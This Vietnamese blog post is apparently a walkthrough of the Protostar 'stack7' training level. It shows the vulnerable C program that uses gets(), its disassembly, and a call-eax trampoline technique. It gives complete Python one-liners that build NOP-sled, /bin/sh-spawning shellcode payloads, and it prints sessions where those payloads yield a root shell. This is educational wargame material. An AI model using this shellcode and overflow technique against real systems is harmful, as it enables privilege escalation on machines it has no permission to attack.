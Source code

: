 ```yaml
---
layout: post
title: stack7
---
```

Trong bài này, giới hạn `eip` của caller cao hơn bài trước.
Bạn không thể chọn `eip` có dạng `0xb???????`, do đó, chỉ có thể return về lệnh trong phần chính (.text trong asm) của chương trình.
Phương pháp ROP giới thiệu trong bài trước vẫn có nguyên giá trị trong bài này.
Hãy tham khảo đáp ở cuối bài.
Sau đây là source code và asm code.
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

```asm
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
0x08048545 <main+0>:    push   ebp
0x08048546 <main+1>:    mov    ebp,esp
0x08048548 <main+3>:    and    esp,0xfffffff0
0x0804854b <main+6>:    call   0x80484c4 <getpath>
0x08048550 <main+11>:   mov    esp,ebp
0x08048552 <main+13>:   pop    ebp
0x08048553 <main+14>:   ret
```
Một kỹ thuật mới dựa vào lệnh `call`/`jmp` register để exploit sẽ được giới thiệu trong bài này.
Nguyên lý của phương pháp là điều chỉnh các register như `eax`, `ebx`, etc. rồi dùng các lệnh điều hướng `call`, `jmp`, etc. để tìm đến đoạn code mong muốn.
Cụ thế trong stack7, hàm `getpath` có trả về giá trị và giá trị này là kết quả của hàm `strdup` với `buffer` là tham số.
Như vậy ta biết, nội dung của `buffer` sẽ được sao chép vào một vị trí khác trên bộ nhớ và `strdup` trả về địa chỉ đó vào register `eax`, ngay trước khi thoát hàm.
Ta cũng biết rằng `buffer` chứa injected code, do vậy bản sao của nó qua `strdup` cũng sẽ chứa đoạn code này.
Việc điều hướng bằng `call eax` hay `jmp eax` sẽ exploit thành công chương trình.

Trước tiên ta cần tìm đúng lệnh `call eax` có sẵn trong phần .text của stack7.
Bạn có thể dùng objdump và grep như sau:
```bash
objdump -d /opt/protostar/bin/stack7 | grep "call"
```
Sau đó lọc ra một lệnh `call eax` với địa chỉ khác với dạng `0xb???????`.
Có 2 lệnh như vậy trong stack7, tại địa chỉ `0x080484bf` và `0x080485eb`.
Việc tiếp theo, chúng ta sẽ tính toán giá trị cho `buffer` để exploit chương trình như sau:
```bash
python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xbf\x84\x04\x08'" > input.txt
```
Giá trị này bao gồm 64 byte mong đợi của `buffer`, trong đó 36 byte đầu là `nop` cho NOP-sled và 28 byte còn lại cho injected code.
4 byte tiếp theo ghi đè lên biến `ret`.
8 byte tiếp theo dành cho padding.
4 byte tiếp theo dành cho `ebp` của caller.
4 byte cuối cùng là địa chỉ phù hợp, `0x080484bf`, để ghi đè `eip` của caller và điều hướng chương trình về lệnh `call eax`.
Sau đây là bộ nhớ trước và sau hàm `gets`.
Phân biệt <span style="color:aqua">buffer</span> và <span style="color:orangered">eip mới của caller</span>.
<pre class="memory">
0xbffff710:     0xbffff72c      0x00000000      0xb7fe1b28      0x00000001
0xbffff720:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0xb7f0186e</span>
0xbffff730:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0xb7ec6165</span>      <span style="color:aqua">0xbffff748</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff740:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x0804973c</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x08048380</span>
0xbffff750:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x0804973c</span>      <span style="color:aqua">0xbffff788</span>      <span style="color:aqua">0x08048589</span>
0xbffff760:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048570</span>      0xbffff788
0xbffff770:     0xb7ec6365      0xb7ff1040      0xbffff788      <span style="color:orangered">0x08048550</span>
</pre>
<pre class="memory">
0xbffff710:     0xbffff72c      0x00000000      0xb7fe1b28      0x00000001
0xbffff720:     0x00000000      0x00000001      0xb7fff8f8      <span style="color:aqua">0x90909090</span>
0xbffff730:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff740:     <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>      <span style="color:aqua">0x90909090</span>
0xbffff750:     <span style="color:aqua">0x6850c031</span>      <span style="color:aqua">0x68732f2f</span>      <span style="color:aqua">0x69622f68</span>      <span style="color:aqua">0x89e3896e</span>
0xbffff760:     <span style="color:aqua">0xb0c289c1</span>      <span style="color:aqua">0x3180cd0b</span>      <span style="color:aqua">0x80cd40c0</span>      0x90909090
0xbffff770:     0x90909090      0x90909090      0x90909090      <span style="color:orangered">0x080484bf</span>
</pre>
Đáp án và kết quả hãy tham khảo ở cuối bài.

## Ref
```bash
user@protostar:~$ python -c "print 'ABC\x00' + '\x90' * 32 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\x44\x85\x04\x08' + '\x60\xf7\xff\xbf'" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack7
input path please: got path ABC
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
```bash
user@protostar:~$ python -c "print '\x90' * 36 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * 16 + '\xbf\x84\x04\x08'" > input.txt
user@protostar:~$ (cat input.txt ; cat) | stack7
input path please: got path ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒▒°
                                                                                 ̀1▒@̀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
whoami
root
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
exit

```
